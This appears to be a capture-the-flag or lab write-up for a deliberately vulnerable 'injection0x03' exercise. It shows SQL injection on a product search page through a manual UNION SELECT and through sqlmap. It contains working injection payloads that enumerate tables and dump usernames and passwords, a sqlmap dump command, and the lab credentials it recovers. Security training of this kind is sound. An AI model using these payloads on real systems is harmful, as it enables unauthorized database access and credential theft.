 
## **Overview**

We have 2 ways to do this :D

Manually using the **UNION SELECT** query or using `sqlmap`

***
## **Manually**


We are giving a product page with the search functionality

![](https://i.imgur.com/TD2Rqgp.png)



Using this query in the search bar - `senpai' or 1=1#` we got back all the lists of product

![](https://i.imgur.com/UdjhrTL.jpg)


we can then advance our query by using **UNION SELECT**, like we said in the past modules, keep adding `null` till something clicks, this time we needed 4 nulls

```
senpai' union select null,null,null,null#
```


![](https://i.imgur.com/e2H7jSI.png)



We can then attempt to get all tables from this database by using the query as shown below

```
senpai' union select null,null,null,table_name from information_schema.tables#
```


![](https://i.imgur.com/GOQJ3Er.png)


Searching for **injection0x03** gives us a `_users` and `_products` table 
 
![](https://i.imgur.com/mxIbLRO.png)


We can then attempt to dump the content of this table, After much enumeration, i found out the **injection0x03_users** has only two columns which is `username` and password, Using the following queries we can dump them out

```sql
senpai' union select null,null,null,username from injection0x03_users#
```


![](https://i.imgur.com/BKUKrVt.png)



```
senpai' union select null,null,null,password from injection0x03_users#
```



![](https://i.imgur.com/SR50Gtn.png)


So definitely, our Username and password is `takeshi:### onigirigadaisuki`


## **SQLMAP**


As usual intercept your request in burp and save it to a `.txt` file

![](https://i.imgur.com/m6THEmF.png)


On your command line run this and you should have the `injection0x03_users` table dumped

```bash
$ sqlmap -r request.txt --level=2 --dump -T injection0x03_users
```


![](https://i.imgur.com/IsNK5wU.jpg)

